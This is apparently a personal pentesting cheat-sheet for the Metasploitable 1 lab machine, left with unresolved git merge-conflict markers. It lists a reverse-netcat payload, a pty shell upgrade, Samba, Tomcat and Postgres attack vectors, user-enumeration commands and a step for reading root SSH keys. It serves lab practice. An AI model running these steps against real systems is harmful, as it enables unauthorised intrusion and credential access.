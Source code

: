 <<<<<<< HEAD
#set PAYLOAD cmd/unix/reverse_netcat
#python -c 'import pty;pty.spawn("/bin/bash")'
#samba vuln / usermap_script
#tomcat default creds
#linux kernel exploit
#postgres sql vuln (default creds)
#dirbuster the port 80
#enum4linux to enumerate users
#!! | grep 'user:' | cut -d'[' -f2 | cut -d']' -f1 > userlist
# smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 10.11.1.10 > smtp_users
# cat smtp_users | grep exists | cut -d" " -f2 >> users
# enum4linux -U 10.11.1.10
# !! | grep 'user:' | cut -d'[' -f2 | cut -d']' -f1 > userlist
# smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 10.11.1.10 > smtp_users
# cat smtp_users | grep exists | cut -d" " -f2 >> userslist
cat userlist | sore -u > users_metasploitable
=======
### METASPLOITABLE 1 ###

# Samba vulnerability
-set PAYLOAD cmd/unix/reverse_netcat
-python -c 'import pty;pty.spawn("/bin/bash")'

# Tomcat
-tomcat default creds

# Privilege Escalation
linux kernel exploit (udev link)

# mySQL database
postgres sql vuln (default creds)

# Web App
dirbuster the port 80 (dircbuster or dirb)
## More ways to PWN!! ##
-enum4linux to enumerate users
-!! | grep 'user:' | cut -d'[' -f2 | cut -d']' -f1 > userlist
-smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 10.11.1.10 > smtp_users
-cat smtp_users | grep exists | cut -d" " -f2 >> users
-linux command: cut
-twikidblib informational disclosure
-twiki php code injection / execution
-low priv shell -> look for ssh keys!
-ls -lsart /root/.ssh
-cat /root/.ssh/authorized_keys
grep -lr
>>>>>>> 8fcedb163f27d6ed2afbb379e83d8e9f9ed5ba9f

